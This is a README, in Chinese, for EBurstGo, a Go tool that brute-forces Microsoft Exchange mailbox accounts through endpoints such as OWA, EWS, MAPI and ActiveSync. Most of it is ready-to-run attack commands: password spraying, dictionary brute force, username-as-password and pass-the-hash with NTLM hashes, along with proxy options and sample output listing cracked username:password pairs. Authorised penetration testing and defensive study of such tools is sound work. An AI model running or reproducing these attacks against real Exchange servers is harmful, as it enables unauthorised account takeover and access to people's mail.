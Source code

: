 # EBurstGo

[English](README-en.md)

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目使用 Go 语言重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

注意 Releases 中的代码不一定是最新的

建议将本项目 clone 下来然后执行 `goreleaser build --snapshot` 手动编译

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	check Exchange endpoints
  -delay int
    	delay between requests
  -domain string
    	AD domain
  -mode string
    	Exchange endpoint
  -nocolor
    	disable output color
  -o string
    	output file (default "result.txt")
  -pass string
    	password
  -passf string
    	password file
  -proxy string
    	socks/http(s) proxy
  -pth
    	PTH mode (Pass The Hash)
  -t int
    	number of goroutines (default 2)
  -url string
    	Exchange url
  -user string
    	username
  -user-as-pass
    	password is same as username
  -userf string
    	username file
  -userpassf string
    	user-pass file (user:pass)
  -v	show verbose info
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] checking exchange endpoints
[+] owa (/owa/auth.owa) exists
[+] powershell (/powershell) exists
[+] ecp (/owa/auth.owa) exists
[+] autodiscover (/autodiscover) exists
[+] mapi (/mapi) exists
[+] activesync (/Microsoft-Server-ActiveSync) exists
[+] oab (/oab) exists
[+] ews (/ews) exists
[+] rpc (/rpc) exists
```

brute

```shell
# 默认会将爆破成功的账户追加写入 result.txt

# 常规爆破
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews

# 账户爆破
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user Alice -passf pass.txt -mode ews

# 密码喷洒
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -pass 'Changeme123' -mode ews

# 支持 user:pass 格式的字典
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userpassf userpass.txt -mode ews

# 密码与用户名相同
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -user-as-pass -mode ews

# Pth 爆破 (pass.txt 为 NTLM Hash)
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -pth

# 设置 socks/http(s) 代理
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -socks socks5://127.0.0.1:1080
```

examples

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews
[*] using ews endpoint: https://192.168.30.11
[+] success: Administrator:abcd1234!@#$
[+] success: Alice:Alice123!
[+] success: Bob:Bob123!
[+] success: Marry:Marry123!
[*] costs: 3.031753209 s
```

## Todo

- 开启代理使用 NTLM 认证爆破一段时间后出现 `connection refused`, 待解决 (这个目前来说好像没有什么好的解决方法, 只能通过将协程数量调小 + 添加延时来避免)

- `/powershell` 接口 (Kerberos 认证) 待支持

## License

Modified some code from the following repos

[Azure/go-ntlmssp](https://github.com/Azure/go-ntlmssp): Copyright (c) 2016 Microsoft The MIT License (MIT)

